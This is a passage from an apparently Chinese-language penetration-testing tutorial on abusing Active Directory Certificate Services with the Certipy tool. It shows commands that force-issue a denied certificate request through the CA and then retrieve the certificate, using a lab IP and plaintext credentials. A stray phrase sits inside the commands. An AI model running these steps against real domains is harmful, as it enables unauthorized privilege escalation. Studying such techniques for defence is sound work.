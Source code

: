 该请求将被拒绝，但我们将保存私钥并记下请求 ID。

再次请求

```bash
certipy ca -ca 'penson-ADCS-CA' -issue-request 33 -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21
```

[![](assets/1708508972-a3acd5cf1fda6b6b4735fb2110eca67e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170702-6903d9ac-cfcf-1.png)

最后，我们可以使用 req 命令和-retrieve <request id="">参数检索颁发的证书。</request>

```bash
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target 192.168.142.21 -retrieve 33
```

[![](assets/1708508972-20ed031323ce3c58d09d998fc51f7be8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170728-78ef2c5e-cfcf-1.png)

